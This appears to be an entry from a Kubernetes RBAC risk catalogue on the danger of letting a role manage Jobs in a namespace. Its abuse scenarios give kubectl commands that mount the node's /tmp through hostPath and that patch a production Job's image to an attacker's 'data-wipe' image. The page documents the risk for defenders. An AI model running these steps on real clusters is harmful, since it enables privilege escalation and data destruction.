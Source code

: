 ```yaml
---
id: 1042
title: "Manage Jobs in a namespace (one-off privileged execution)"
description: "Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                              |
| ------------- | -------------------------------------------------------------------------------------------------- |
| ID            | 1042                                                                                               |
| Name          | Manage Jobs in a namespace (one-off privileged execution)                                          |
| Risk Category | Elevation of Privilege                                                                             |
| Risk Level    | {{< risk High >}}                                                                                  |
| Role Type     | Role                                                                                               |
| API Groups    | batch                                                                                              |
| Resources     | jobs                                                                                               |
| Verbs         | create, update, patch, delete                                                                      |
| Tags          | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace.

## Abuse Scenarios

1. Create a new Job with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: hostpath-job
spec:
  template:
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Hello from job' >> /host-tmp/job.log"]
        volumeMounts:
        - mountPath: /host-tmp
          name: host-tmp
      volumes:
      - name: host-tmp
        hostPath:
          path: /tmp
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing Job's image to a malicious one.

```bash
kubectl patch job <job-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/malicious-script"}]'
# Example: kubectl patch job cleanup-old-data -n production --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/data-wipe"}]'

```
